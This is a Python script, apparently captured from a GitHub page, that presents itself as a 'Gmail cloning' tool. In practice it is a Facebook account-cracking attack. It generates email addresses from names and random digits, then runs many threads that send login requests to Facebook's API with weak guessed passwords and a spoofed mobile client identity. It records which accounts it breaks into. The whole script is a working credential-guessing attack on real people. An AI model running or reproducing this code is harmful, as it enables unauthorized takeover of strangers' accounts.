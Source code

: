 #WRITTEN BY MR.Jim
#MY GITHUB : https://github.com/MR-JIM-71 
#----------import----------#
from os import system as clr
import random 
import string
from concurrent.futures import ThreadPoolExecutor as ted
import uuid
import json
import sys
#-------------color----------------#
bblack="\033[1;30m"         # Black
M="\033[1;31m"            # Red
H="\033[1;32m"         # Green
byellow="\033[1;33m"        # Yellow
bblue="\033[1;34m"          # Blue
P="\033[1;35m"        # Purple
C="\033[1;36m"          # Cyan
B="\033[1;37m"         # White
my_color = [
 B,C,P,H]
warna = random.choice(my_color)
oks=[]
cps=[]
loop=0
#----------logo----------#
logo=(f'''{warna}
      ## #### ##     ## 
      ##  ##  ###   ### 
      ##  ##  #### #### 
      ##  ##  ## ### ## 
##    ##  ##  ##     ## 
##    ##  ##  ##     ## 
 ######  #### ##     ##{B} ''')
#-----------clear-----------#
def clear():
    clr('clear')
    print(logo)
    print(45*'-')
    print('Facebook : Md Jim Islam')
    print('YouTube : RJ OFFICIAL 1.1')
    print(45*'-')
#----------line----------#
def line():
    print(45*'-')
#----------main----------#
def main():
    clear()
    print('[01] GMAIL CLONING ')
    print('[00] EXIT')
    line()
    option=input('[??] CHOICE MENU : ')
    if option in ['1','01']:
        gmail()
    else:
        exit(' thanks for using :) ')
#----------gmail--------#
def gmail():
    user=[]
    clear()
    print('EXAMPLE : mim , sadiya , mahadi ')
    first=input('ENTER FIRST NAME : ')
    line()
    print('EXAMPLE : akter , khan , hasan ')
    last=input('ENTER LAST NAME : ')
    line()
    print('EXAMPLE : @gmail.com , @yahoo.com')
    domain=input('ENTER YOUR DOMAIN : ')
    clear()
    print('EXAMPLE : 1000,5000,10000')
    try:
        limit=int(input('ENTER YOUR LIMIT : '))
    except ValueError:
        limit=5000
    for nmbr in range(limit):
        nmp="".join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ted(max_workers=30) as Dipto:
        tl=str(len(user))
        clear()
        print('TOTAL ACCOUNT : '+tl)
        print('USE AIRPLANE MODE FOR SPEED UP ')
        line()
        for digitx in user:
            ids=first+last+digitx+domain
            passlist=[first+last,first+'123',first+'1234',first+'12345',first+'1122',first+last+'123',first+last+'1234']
            Dipto.submit(m1,ids,passlist)
    line()
    print('THE PROGRESS HAS BEEN COMPLETE')
    input('PRESS ENTER TO BACK : ')
    main()
oks=[]
cps=[]
loop=0
#----------method----------#
def m1(ids,passlist):
    global oks
    global cps
    global loop
    try:
        for pas in passlist:
            sys.stdout.write('\r\r[RUNNING] %s|OK : %s'%(loop,len(oks)))
            sys.stdout.flush()
            adid=str(uuid.uuid4())
            device_id=str(uuid.uuid4())
            datax={'adid': adid, 'format': 'json', 'device_id': device_id, 'email': ids, 'password': pas, 'generate_analytics_claims': '1', 'credentials_type': 'password', 'source': 'login', 'error_detail_type': 'button_with_disabled', 'enroll_misauth': 'false', 'generate_session_cookies': '1', 'generate_machine_id': '1', 'meta_inf_fbmeta': '', 'currently_logged_in_userid': '0', 'fb_api_req_friendly_name': 'authenticate'}
            header={'User-Agent': '[FBAN/FB4A;FBAV/429.0.0.27.114;FBBV/444810901;FBDM/{density=2.75,width=1080,height=2062};FBLC/en_US;FBRV/444810901;FBCR/A-Mobile;FBMF/Xiaomi;FBBD/xiaomi;FBPN/com.facebook.katana;FBDV/Redmi Note 6 Pro;FBSV/9;FBOP/1;FBCA/arm64-v8a:;]', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Friendly-Name': 'authenticate', 'X-FB-Connection-Bandwidth': '21435', 'X-FB-Net-HNI': '35793', 'X-FB-SIM-HNI': '37855', 'X-FB-Connection-Type': 'unknown', 'Content-Type': 'application/x-www-form-urlencoded', 'X-FB-HTTP-Engine': 'Liger'}
            url='https://api.facebook.com/method/auth.login'
            req=httpx.post(url,data=datax,headers=header).json()
            if 'session_key' in req:
                print('\r\r [OK] '+ids+' | '+pas)
                oks.append(ids)
                break
            elif 'www.facebook.com' in req['error_msg']:
                print('\r\r [CP] '+ids+' | '+pas)
                cps.append(ids)
                break
            else:
                continue
        loop+=1
    except:
        pass
#----------end-----------#
main()-----------#
main()
